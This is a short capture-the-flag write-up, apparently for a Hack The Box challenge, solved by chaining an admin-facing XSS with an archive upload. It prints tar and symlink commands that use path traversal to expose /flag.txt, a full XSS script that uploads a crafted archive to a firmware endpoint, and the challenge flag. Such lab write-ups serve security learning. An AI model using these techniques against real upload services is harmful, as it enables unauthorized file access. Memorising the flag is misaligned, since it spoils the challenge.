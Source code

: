 Stacked with xss from admin


Looking at the downloaded source code we can exploit how it moves the files to the final location to allow for uploading files anywhere
```bash
tar -czvf symlink.tar.gz -P "../app/application/static/flag.txt"
```
The `-P` flag preserves the file path with the `../` included, so when the server extracts it, a new symlink is created under the static directory to give us access to the flag

The flag symlink was created using
```bash
ln -s /flag.txt flag.txt
```

The issue to xss for submission
```html
<script>
// https://stackoverflow.com/a/16245768/5299903
let b64toBlob = (b64Data, contentType='', sliceSize=512) => {
  const byteCharacters = atob(b64Data);
  const byteArrays = [];

  for (let offset = 0; offset < byteCharacters.length; offset += sliceSize) {
    const slice = byteCharacters.slice(offset, offset + sliceSize);

    const byteNumbers = new Array(slice.length);
    for (let i = 0; i < slice.length; i++) {
      byteNumbers[i] = slice.charCodeAt(i);
    }

    const byteArray = new Uint8Array(byteNumbers);
    byteArrays.push(byteArray);
  }

  const blob = new Blob(byteArrays, {type: contentType});
  return blob;
}

// https://stackoverflow.com/a/51527250/5299903
var blob = b64toBlob("H4sIAAAAAAAAA+3PTQrCQAyG4RxlTjB/NOY8Q0EplFrqCHp7ZxaCm+pCcfU+EL7Fl0XifSjr2meexlKn8xIuteUYjnM5+Xqr8rXYmFnPZBpf80nSkIeoOR1Mpbeq4vIPb9h1be9uzsl2L8u7vU89AAAAAAAAAAAAAAAAAAB/9ADONpqYACgAAA==")
var xhr = new XMLHttpRequest();
xhr.open('POST', '/api/firmware/upload', true);

var formData = new FormData();
formData.append('file', blob, 'firmware.tar.gz');

xhr.send(formData);
</script>
```

```
GET /static/flag.txt
```
```
HTB{des3r1aliz3_4ll_th3_th1ngs}
```
